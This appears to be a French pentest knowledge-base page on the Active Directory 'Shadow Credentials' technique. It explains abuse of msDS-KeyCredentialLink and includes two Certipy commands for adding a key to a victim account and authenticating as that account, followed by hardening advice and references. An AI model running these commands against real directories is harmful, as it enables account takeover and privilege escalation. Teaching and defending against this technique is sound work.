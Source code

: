 ```yaml
---
title: Shadow Credentials
date: '2025-07-15'
draft: false
---
```


# 🕵️‍♂️ Shadow Credentials

## Qu'est-ce que les Shadow Credentials ?

Les **Shadow Credentials** sont une technique d'attaque Active Directory permettant à un attaquant d'ajouter des clés d'authentification (clé publique) à un compte utilisateur, lui permettant de s'authentifier sans mot de passe.

## 🎯 Objectifs pédagogiques

- Comprendre le mécanisme des clés d'authentification dans AD
- Savoir comment exploiter Shadow Credentials pour l'élévation de privilèges

## 📋 Exemples de vulnérabilités et exploitation

### Vulnérabilités courantes

- **Permissions d'écriture sur msDS-KeyCredentialLink** : Si un utilisateur peut écrire sur cet attribut, il peut ajouter une clé d'authentification.
- **Absence d'audit sur les modifications d'attributs sensibles** : Rend l'attaque difficile à détecter.

### Scénario d'exploitation

1. **Ajout d'une clé à un compte cible** :
   - L'attaquant génère une paire de clés (privée/publique) et ajoute la clé publique à l'attribut `msDS-KeyCredentialLink` du compte cible.
2. **Authentification avec la clé privée** :
   - L'attaquant s'authentifie en tant que l'utilisateur cible sans connaître son mot de passe.

### Commandes d'exploitation avec Certipy

```bash
# Générer une nouvelle clé et l'ajouter à un compte cible
certipy-ad shadow -u attacker -p 'Password123!' -target-user victim -dc-ip 10.10.10.2 -domain ad.local

# S'authentifier avec la clé privée générée
certipy-ad auth -u victim@ad.local -key <clé_privée.pem> -dc-ip 10.10.10.2
```

## 🛡️ Bonnes pratiques

- Restreindre les droits d'écriture sur l'attribut msDS-KeyCredentialLink
- Surveiller les modifications de cet attribut dans les logs
- Mettre à jour et auditer régulièrement les permissions AD

## 📚 Ressources utiles

- [Shadow Credentials Attack - SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Certipy Documentation](https://github.com/ly4k/Certipy)
- [HackTricks - Shadow Credentials](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/shadow-credentials)

---

_Dernière mise à jour : 15 juillet 2025_
